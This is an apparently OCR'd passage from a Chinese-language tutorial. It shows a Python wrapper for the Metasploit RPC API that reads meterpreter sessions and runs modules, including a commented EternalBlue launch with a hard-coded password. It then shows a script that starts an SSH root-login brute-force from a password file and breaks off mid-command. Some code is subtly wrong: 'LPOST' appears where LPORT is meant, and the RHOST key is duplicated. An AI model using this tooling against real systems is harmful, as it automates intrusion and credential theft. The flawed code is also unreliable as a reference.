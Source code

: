```python
        """
        读取meterpreter信息
        :param ses_id:
        :return:
        """
        str(ses_id)
        res = self.send_command(["session.meterpreter_read",self.token,ses_id])
        return res

    def run_module(self,_type,name,HOST,PORT,payload=False):
        """
        执行模块
        :param _type:
        :param name:
        :param HOST:
        :param PORT:
        :param payload:
        :return:
        """
        if payload != False:
            d = ["module.execute",self.token,_type,name,{"LHOST":HOST,"LPOST":PORT}]
        else:
            d = ["module.execute",self.token,_type,name,{"RHOST":HOST,"RHOST":PORT}]
        res = self.send_command(d)
        return res


# if __name__ == "__main__":
#     auth = Client("127.0.0.1","msf","yFdkc6fB")
#     print(auth.get_version())
#     print(auth.list_consoles())
#     print(auth.create_console())
#     print(auth.read_console(1))
#     print(auth.write_console(1,"ls"))
#     print(auth.destroy_console(1))
#     print(auth.list_sessions())
#     print(auth.run_module("exploit","ms17_010_eternalblue","1.1.1.1","1"))

```

使用这个库去调用攻击模块：

```python
# _*_ encoding:utf-8 _*_
# __author__ = "dr0op"

from pymsfrpc import msfrpc
import time

ip = "10.10.11.180"
port = "55553"
user = "msf"
passwd = "msf"
c = msfrpc.Client(ip,port,user,passwd)

console_id = c.create_console().get(b'id')
cmd = """
         use auxiliary/scanner/ssh/ssh_login

         set RHOSTS 127.0.0.1
        
         set USERNAME root
         
         set PASS_FILE /tmp/pass.txt
```